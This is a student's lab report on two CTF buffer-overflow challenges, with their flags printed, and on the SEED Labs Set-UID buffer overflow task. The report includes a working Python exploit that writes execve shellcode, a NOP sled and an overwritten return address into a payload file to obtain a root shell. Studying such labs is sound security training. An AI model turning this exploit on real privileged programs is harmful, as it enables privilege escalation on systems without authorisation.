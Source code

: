 # CTF

## Challenge 1

### Recon

- We identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address and the stack has execution permission.

### Vulnerability

The program read a file (mem.txt), and in order to get the flag we needed to change which file the program read. The path to the file was kept in the variable meme_file. The only moment in the execution of the program in which the user intervenes is when he gets to give a text input, that will be kept in a 20 byte buffer.

We understood the vulnerability would be connected to said buffer, and could be exploited by creating a buffer overflow. If we wrote more than 20 characters a buffer overflow would occur. We knew we could write on the stack and change other variables and we knew meme_file was next to the buffer on the stack. So in order to access flag.txt we sent as the input something like "[20 characters to fill the buffer]flag.txt". This changed the variable mem_file to "flag.txt" and we found the flag - `flag{8df95b4dbd7681ec6e6688826ae6fd12}`.

## Challenge 2

### Recon

- Just like before, we identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address and the stack has execution permission, once again.

### Vulnerability

The difference this time in the program, was a new variable "val", an array of 4 characters. The program would only open the text file if the condition `*(long*)val == 0xfefc2122` was met.

We identified the same opportunity to create a buffer overflow, except this time the variables were in the following order in the stack: buffer->val->mem_file. So we used the Python script to send the input "[20 characters to fill the buffer][0x22][0x21][0xfc][0xfe]flag.txt". This way the condition was met and we changed the variable mem_file to "flag.txt", just like in the first challenge. Doing this we found the flag - `flag{031964c904407b7f31a925abe31d5d1f}`.

# SEED Labs

## Buffer Overflow Attack Lab (Set-UID Version)

### Task 1: Getting Familiar with Shellcode

- We were able to understand the shellcode and run the generated 32 bit binary that executed the shellcode.
- A shell was launched when executing the binary, as expected.

### Task 2: Understanding the Vulnerable Program

- We understood how the program had a buffer overflow vulnerability, since it was copying a 517 bytes buffer to a 100 bytes one. This opens the possibility to get a root shell.
- By using the `make` command, we compiled the vulnerable program with flags for turning off StackGuard and the non-executable stack protections and set it as a root owned Set-UID program.

### Task 3: Launching Attack on 32-bit Program (Level 1)

To find the difference between the buffer's starting and the place where the return address is stored, we created a file named 'badfile' and launched gdb on the vulnerable program, registering the ebp and buffer address (`0xffffca48` and `0xffffc9dc`, respectively) after function `bof` is called. By calculating the difference between the addresses, we find that these are 108 bytes apart.

Next, we needed to generate the contents of the 'badfile' with the shellcode and a precisely placed return address that would overwrite the `bof`'s function return address in the stack and lead the program to run the shellcode. For that, by using the provided `exploit.py` file, we crated a 'badfile' of 517 bytes (the size of the `str` buffer) filled with NOP instructions (0x90) and the shellcode at the end. Since the ebp address was 108 bytes away from the starting address of the buffer, and the return address comes before ebp, we placed a return address on byte 112 (108 + address size of 4 bytes) of the 'badfile'. This return address was the buffer address plus 300, which would give us an address of one of the NOP instructions. By doing that, the program would return from the `bof` function to a NOP sled, that would lead it to run the shellcode. By running the program we successfully got a shell.

This was the resulting `exploit.py` file:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc + 300
offset = 112

L = 4     # 32-bit address size
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

